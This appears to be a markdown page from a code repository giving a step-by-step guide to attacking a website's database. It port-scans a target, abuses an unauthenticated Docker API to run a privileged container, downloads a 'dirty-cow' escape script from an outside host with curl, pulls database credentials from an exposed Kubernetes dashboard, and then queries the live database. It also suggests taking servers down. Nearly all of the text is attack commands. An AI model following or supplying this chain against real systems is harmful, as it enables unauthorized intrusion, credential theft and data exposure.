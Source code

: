 ## Basic Attack - Attack the db of a website

- `ping <url>`
- Port scan to for penetration
```bash
zsh port-scan.sh <ip_addr_gotten_from_the_ping e.g 104.21.63.124>
```
- Let's assume a docker port is successful
- Assuming the docker does not have authentication or authorization, run:
`docker -H <url> ps`, to list the containers and `docker -H <url> version` for more information

- Let's see if we can penetrate a contiainer in 'privileged' mode, to access the underlying host:
```bash
docker -H <url> run --privileged -it ubuntu bash
```
- A vulnerability 'dirty-cow', has been spotted as a way into the host. Let's use it:
`curl http://catgirl.me/dirty-cow.sh > dirty-cow.sh 
  - 'command not found` reply
If there are no restrictions from installing binaries, let's install them:
`apt-get install curl`. nor rerun `curl http://catgirl.me/dirty-cow.sh > dirty-cow.sh ` to escape the container and enter the host with: `dirty-cow.sh`

- At this point, we can infilterate other networks and attack other systems as well
  - we can shut down servers and bring the entire application down

- If it is a kubernetes worker node, check with `hostname` and `sudo docker ps`, let's get the IPs from the ip-table `sudo iptables -L -t nat | grep <kubernetes-dashboard>`. Now we can publicly access the dashboard with `<node_IP:dashboard_port>`, if there are no restrictions placed on it also.

- On the dashboard in a browser, we found the environment variables and password to access the postgresql database

- Then we head back to the terminal to enter `sudo docker ps | grep db` and exec into it `docker exec -it <db_container> bash`

- Then we enter the variable to acces the database: `PGPASSWORD=xxx psql --username=postgres`

- Now in the database, lets's query the tables: `\dt` and select * from <live>
